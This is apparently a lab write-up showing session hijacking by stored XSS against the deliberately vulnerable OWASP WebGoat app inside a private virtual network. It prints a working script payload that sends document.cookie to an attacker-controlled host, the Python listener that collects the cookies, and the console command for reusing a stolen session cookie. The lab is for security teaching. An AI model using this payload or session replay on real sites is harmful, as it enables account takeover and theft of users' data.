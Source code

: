 # Session Hijack using XSS

## Introduction
A **Session Hijack attack** exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

**Session Hijacking** involves compromising this session cookie, either by stealing or predicting a valid value, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
**Cross-Site Scripting (XSS) attacks** are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* **Reflected XSS Attacks**: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* **Stored XSS Attacks**: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In the following experiment, we will use a **stored XSS attack** to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
The first phase involves ensuring network connectivity between the attacker, the web server, and the victim machine. This step is critical because successful communication is required for the attack to proceed. The ping command is used to verify that each machine can reach the others over the network.

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
Running WebGoat involves setting up a deliberately insecure web application on the Ubuntu server. The command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
pulls the WebGoat Docker image and runs it, exposing it on port 8080. This setup creates a controlled environment where security vulnerabilities, such as XSS, can be safely explored and demonstrated.

### Phase 3: Attacker Account
To begin the attack, the attacker needs an account on the WebGoat application. Using Kali Linux, the attacker opens a browser and navigates to:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.PNG)  

The attacker registers a new account by clicking the register button and providing the necessary details. This account will be used to identify and exploit vulnerabilities in the web application.
![Attacker Register](images/attacker-register.PNG)  

### Phase 4: Identify XSS Vulnerability
The next step is to identify a vulnerability in the WebGoat application. By navigating to the "Cross Site Scripting (stored)" section under "Injection," the attacker accesses a simulated forum where users can post comments.
![xss page](images/xss-page.PNG)  

To test for vulnerabilities, the attacker posts a comment with HTML tags: 
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG)  

If the comment is displayed with formatting, it indicates that the application does not properly sanitize input, confirming the presence of an XSS vulnerability.

### Phase 5: Payload Injection
Once the XSS vulnerability is identified, the attacker injects a malicious payload to steal session cookies. The payload:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG)  

is crafted to send the session cookie to the attacker's server. 

This script, when executed by the victim's browser, will fetch all the cookies and send them to the specified URL (the attacker's server).

### Phase 6: Attacker Controlled Server
To receive the stolen cookies, the attacker sets up an HTTP server on Kali Linux. Using the command 
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG)  

the attacker creates a simple HTTPS server listening on port 9000. This server will capture any incoming HTTP requests, including those generated by the malicious payload.

### Phase 7: Target Access Comment
An unsuspecting user on the Windows VM visits the WebGoat application and views the forum with the injected comment. When the user's browser renders the comment, the embedded script executes, sending the session cookie to the attacker's server. The attacker observes the incoming request on their HTTP server, capturing the session cookie.
![cookie](images/cookie.PNG)  


### Phase 8: Use Session Cookie
With the session cookie in hand, the attacker can impersonate the victim. The attacker opens the browser's debugger console (e.g., in Firefox) and uses the command 
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
to set their session cookie to the stolen value. This action allows the attacker to assume the victim's session, gaining unauthorized access to the web application with the same privileges as the victim.
![impersonate](images/impersonate.PNG)  

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References and Inspirations
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack
